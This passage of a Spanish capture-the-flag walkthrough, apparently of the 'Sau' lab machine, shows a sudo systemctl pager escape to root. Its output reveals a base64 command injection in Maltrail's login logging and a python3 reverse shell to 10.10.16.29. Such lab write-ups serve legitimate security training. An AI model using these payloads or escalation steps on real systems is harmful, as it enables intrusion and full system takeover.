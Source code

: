 Nos `convertimos` en usuario `root` usando el `pager`, este concepto está explicado en [https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

```
puma@sau:/var/backups$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-09-30 15:15:10 UTC; 2h 19min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 868 (python3)
      Tasks: 13 (limit: 4662)
     Memory: 313.0M
     CGroup: /system.slice/trail.service
             ├─  868 /usr/bin/python3 server.py
             ├─ 1216 /bin/sh -c logger -p auth.info -t "maltrail[868]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTk>
             ├─ 1217 /bin/sh -c logger -p auth.info -t "maltrail[868]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTk>
             ├─ 1220 sh
             ├─ 1221 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.29",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os>
             ├─ 1222 /bin/sh
             ├─ 1259 script /dev/null -c bash
             ├─ 1260 bash
             ├─ 9039 gpg-agent --homedir /home/puma/.gnupg --use-standard-socket --daemon
             ├─16948 sudo /usr/bin/systemctl status trail.service
             ├─16949 /usr/bin/systemctl status trail.service
             └─16950 pager

Sep 30 16:59:01 sau crontab[6200]: (puma) LIST (puma)
Sep 30 16:59:03 sau sudo[8441]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=root ; COMMAND=list
Sep 30 16:59:03 sau nologin[8481]: Attempted login by UNKNOWN (UID: 1001) on UNKNOWN
Sep 30 17:19:05 sau sudo[16730]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=root ; COMMAND=list
Sep 30 17:33:50 sau sudo[16946]:     puma : TTY=pts/1 ; PWD=/var/backups ; USER=root ; COMMAND=list
Sep 30 17:34:02 sau sudo[16947]: pam_unix(sudo:auth): conversation failed
Sep 30 17:34:02 sau sudo[16947]: pam_unix(sudo:auth): auth could not identify password for [puma]
Sep 30 17:34:02 sau sudo[16947]:     puma : command not allowed ; TTY=pts/1 ; PWD=/var/backups ; USER=root ; COMMAND=/usr/bin/systemctl
Sep 30 17:35:09 sau sudo[16948]:     puma : TTY=pts/1 ; PWD=/var/backups ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Sep 30 17:35:09 sau sudo[16948]: pam_unix(sudo:session): session opened for user root by (uid=0)
!sh
# whoami
root
```
